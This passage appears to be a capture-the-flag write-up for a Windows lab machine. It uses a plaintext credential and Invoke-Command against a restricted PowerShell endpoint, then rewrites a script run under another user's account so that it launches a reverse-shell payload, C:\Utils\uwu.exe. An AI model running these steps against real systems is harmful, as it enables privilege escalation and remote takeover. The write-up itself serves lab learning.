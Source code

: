 We need to make a credential and secure password string object 

```powershell
$pass = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force
```

```powershell
$credential = New-Object System.Management.Automation.PSCredential('acute\imonks',$pass)
```

```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock { whoami } -Credential $credential
```

<img src="https://i.imgur.com/DseFB9w.png"/>

But we can only run limited commands

```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock { Get-Command } -Credential $credential
```

<img src="https://i.imgur.com/9KoSbS3.png"/>

We can run `Get-Alias` to see the shortcut of these commands

<img src="https://i.imgur.com/FNr7glp.png"/>

In `imonks` directory we see a powershell script `wm.ps` 

<img src="https://i.imgur.com/Ssfgufe.png"/>

<img src="https://i.imgur.com/4m2bns8.png"/>

This script is using `actue\jmorgan`'s secure password to run `Get-Volume` on the container that we have a web based powershell so what if we made it to execute our payload in `C:\Utils` which will give us a reverse shell 

To do this we can use powershell's cmdlet `Get-Content` and `Set-Content`

https://mcpmag.com/articles/2018/08/08/replace-text-with-powershell.aspx

```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock { (Get-Content -path C:\Users\imonks\Desktop\wm.ps1) -replace 'Get-Volume','cmd.exe /c C:\Utils\uwu.exe'  } -Credential $credential
```

With this command we can replace `Get-Volume` in the script to our payload but it won't be written out to a file it will just output on the powershell

<img src="https://i.imgur.com/y7qCKiG.png"/>

So with `Set-Content` we can write the output to the file itself and then run the powershell script

```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock { ((Get-Content -path C:\Users\imonks\
Desktop\wm.ps1) -replace 'Get-Volume','cmd.exe /c C:\Utils\uwu.exe') | Set-Content -Path C:\Users\imonks\Desktop\wm.ps1
 } -Credential $credential
```
